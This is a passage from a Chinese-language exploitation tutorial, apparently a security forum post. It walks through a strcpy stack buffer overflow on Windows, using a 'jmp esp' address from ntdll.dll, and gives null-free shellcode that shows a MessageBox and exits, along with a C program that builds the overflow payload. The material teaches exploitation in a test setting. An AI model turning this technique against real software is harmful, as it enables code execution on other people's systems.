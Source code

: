 而 jmp esp 指令的地址，最好从 ntdll.dll 中获取，因为该 dll 是最早映射到进程空间的 dll，因此它在每个进程中的地址基本是一致的。在我的测试系统上，ntdll.dll 中保存该指令的地址是 0x7C961EED。因此，可以通过将返回地址修改为该地址的方式，实现将 eip 修改为栈中空间的地址。

![](https://bbs.pediy.com/upload/attach/202201/835440_H7HNYP8G4E8KR8J.jpg)

现在已经可以让程序退出函数的时候，成功跳转到保存了返回地址的栈地址偏移 0x4 的地址继续执行。因此，此时只需要将要运行的指令跟在返回地址之后，就可以实现执行想要的代码，这段代码也成为 ShellCode。

下面就是一段简单的 ShellCode，功能是执行一个 MessageBox 函数，然后在调用 ExitProcess 退出程序，因此此时是因为 strcpy 产生的漏洞，所以，编写的 ShellCode 不能含有 0，否则的话就会被 strcpy 认为字符串已经结束，导致 ShellCode 运行失败。调用的函数 MessageBox 和 ExitProcess 需要是测试的机器上的地址，这个可以使用调试器获取。

```
char g_szShellCode[] = { 
              0x33, 0xDB,            // xor ebx, ebx
              0x53,               // push ebx，将字符串的结束符0压入栈中         
              0x68, 0x68, 0x61, 0x63, 0x6B,   // push 0x6B636168，将字符串"hack"压入栈中
              0x8B, 0xC4,            // mov eax, esp，将字符串的首地址赋给eax
              0x53,               // push ebx
              0x50,               // push eax
              0x50,               // push eax
              0x53,               // push ebx
              0xB8, 0x0B, 0x05, 0xD5, 0x77,   // mov eax, user32.MessageBox
              0xFF, 0xD0,            // call eax
              0x53,               // push ebx
              0xB8, 0xA2, 0xCA, 0x81, 0x7C,  // mov eax, user32.ExitProcess
              0xFF, 0xD0             // call eax
            };

```

最终完成漏洞利用的代码如下：  

```
int main()
{
    char szInput[0x100] = { 0 };
    int iJunkLen = 0x8;
    int iEbpLen = 0x4;
    int iRetLen = 0x4;
    DWORD dwRetAddr = 0x7C961EED;                    // jmp esp地址
     
    LoadLibrary("user32.dll");                    // MessageBox函数在该中，需要将其导入才可以调用
    memset(szInput, 'A', iJunkLen);                  // 覆盖局部变量szStr
    memset(szInput + iJunkLen, 'B', iEbpLen);                 // 覆盖ebp
    *(PDWORD)(szInput + iJunkLen + iEbpLen) = dwRetAddr;      // 覆盖返回地址
    strcpy(szInput + iJunkLen + iEbpLen + iRetLen, g_szShellCode);   // 保存ShellCode
    test(szInput);
 
    system("pause");
 
    return 0;
}

```
